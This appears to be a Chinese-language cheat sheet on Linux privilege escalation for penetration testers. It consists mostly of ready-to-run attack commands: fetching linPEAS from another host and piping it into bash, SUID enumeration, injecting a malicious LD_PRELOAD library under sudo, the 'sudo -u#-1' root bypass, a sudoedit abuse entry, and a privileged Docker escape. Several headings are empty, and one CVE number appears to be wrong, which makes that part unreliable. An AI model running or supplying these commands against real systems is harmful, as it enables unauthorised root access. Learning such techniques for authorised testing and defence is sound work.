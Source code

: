# Linux 权限提升

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>

从内存中运行 `linPEAS`

```bash
curl 172.16.1.30/linpeas.sh | bash
```

## 内核漏洞提权

<https://github.com/The-Z-Labs/linux-exploit-suggester>

### 脏牛

## SUID提权

```bash
find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

## Sudo 提权

### LD_PRELOAD注入

LD_PRELOAD（也称为预加载）是 Linux 动态链接器中的一个强大且高级的功能，它允许用户在进程开始执行之前，将共享对象文件注入（预加载）到该进程的地址空间中。

作为攻击者，我们可以利用这一功能，将恶意的预加载库注入到我们可以用 sudo 权限运行的任何二进制文件中。

```bash
gcc -fPIC -shared -nostartfiles inject.c -o inject.so
```

sudo LD_PRELOAD=/home/cain/inject.so /usr/sbin/apache2

<https://forum.butian.net/share/1493>

### sudo <= 1.8.27（CVE-2019-14897）

```bash
sudo -V
```

当我们传递一个 UID 为 -1 时，sudo 会感到困惑。

因为 UID -1 并不存在，该程序会自动使用下一个存在的 UID，即“0”或最终的 root。

```bash
sudo -u#-1 /bin/bash
```

### 1.8.0 <= sudo <= 1.9.12p1（CVE-2023-22809）

Sudo 中的 sudoedit 对处理用户提供的环境变量（如 SUDO_EDITOR、VISUAL 和 EDITOR）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的“–”参数时，拥有 sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升（由普通用户到超级用户，即"root"）。

```
user ALL=(ALL:ALL) NOPASSWD: sudoedit /etc/test
```

### 1.9.14 <= sudo <= 1.9.17 chroot本地提权漏洞（CVE-2025-32463）

1.9.14 <= sudo <= 1.9.17

<https://forum.butian.net/article/766>

## 定时任务提权

## Docker 提权

特权容器、挂载宿主机目录

```bash
docker run --rm --privileged ubuntu /bin/bash
```

<https://forum.butian.net/share/2638>

## 参考资料

- <https://gtfobins.github.io/>
- <https://juggernaut-sec.com/sudo-part-1-lpe/>
- <https://juggernaut-sec.com/sudo-part-2-lpe/>
